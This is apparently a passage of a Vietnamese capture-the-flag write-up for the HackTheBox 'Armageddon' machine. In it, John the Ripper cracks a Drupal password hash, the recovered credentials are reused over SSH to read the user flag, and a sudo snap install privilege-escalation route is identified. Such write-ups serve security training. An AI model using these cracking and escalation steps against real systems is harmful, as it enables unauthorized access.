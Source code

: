 ### JohnTheRipper
Sử dụng John để crack password
```
┌──(kali㉿kali)-[~]
└─$ echo '$S$DgL2gjv6ZtxBo6CdqZEyJuBphBmrCqIV6W97.oOsUf1xAhaadURt' > hash
                                                                                                             
┌──(kali㉿kali)-[~]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash                
Using default input encoding: UTF-8
Loaded 1 password hash (Drupal7, $S$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 32768 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
booboo           (?)     
1g 0:00:00:00 DONE (2024-08-02 03:18) 1.515g/s 351.5p/s 351.5c/s 351.5C/s tiffany..harley
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Login vào web `brucetherealadmin:booboo` nhưng lại không có gì

![image](https://hackmd.io/_uploads/rJUlF-9KC.png)

Bước đầu recon ta còn một service ssh. Tiến hành kết nối ssh 
```
┌──(kali㉿kali)-[~]
└─$ ssh brucetherealadmin@10.10.10.233    
The authenticity of host '10.10.10.233 (10.10.10.233)' can't be established.
ED25519 key fingerprint is SHA256:rMsnEyZLB6x3S3t/2SFrEG1MnMxicQ0sVs9pFhjchIQ.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.10.233' (ED25519) to the list of known hosts.
brucetherealadmin@10.10.10.233's password: 
Last login: Fri Mar 19 08:01:19 2021 from 10.10.14.5
[brucetherealadmin@armageddon ~]$ ls
user.txt
[brucetherealadmin@armageddon ~]$ cat user.txt
56ddfa6966b8******
```
# Rootflag
## Exploit 
Sử dụng `sudo -l` để liệt kê các quyền sudo mà người dùng hiện tại có trên hệ thống. 
```
[brucetherealadmin@armageddon ~]$ sudo -l
Matching Defaults entries for brucetherealadmin on armageddon:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS
    DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY
    LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User brucetherealadmin may run the following commands on armageddon:
    (root) NOPASSWD: /usr/bin/snap install *
```
Trong [gtfobins](https://gtfobins.github.io/gtfobins/snap/#sudo) ta sẽ có script để leo quyền
